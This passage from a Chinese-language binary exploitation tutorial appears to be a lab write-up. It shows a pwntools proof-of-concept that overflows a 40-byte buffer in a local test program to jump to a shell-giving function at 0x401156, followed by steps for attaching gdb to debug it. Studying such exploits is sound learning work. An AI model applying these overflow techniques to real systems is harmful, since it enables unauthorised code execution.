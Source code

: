 ```
在得知exploit函数的入口地址。0x0000000000401156
0400537
```

![image-20241215012955359](pwn二进制漏洞/image-20241215012955359.png)	

```python
接下来即可写poc.py来验证获得shell了。
from pwn import *
#context(os='linux', arch='amd64', log_level='debug')
p = process("./test")

print("pid"+str(proc.pidof(p)))

offset = 40

payload = offset * b'a' + p64(0x401156)

pause()

p.sendline(payload)

p.interactive()
```

```
运行这个poc.py会暂停，需要回车才能继续运行,此时先别回车，先让gdb可以进行调试。
```

![image-20241215014749135](pwn二进制漏洞/image-20241215014749135.png)	

```
根据这个pid进行gdb的调试。
gdb -attach 108620
```
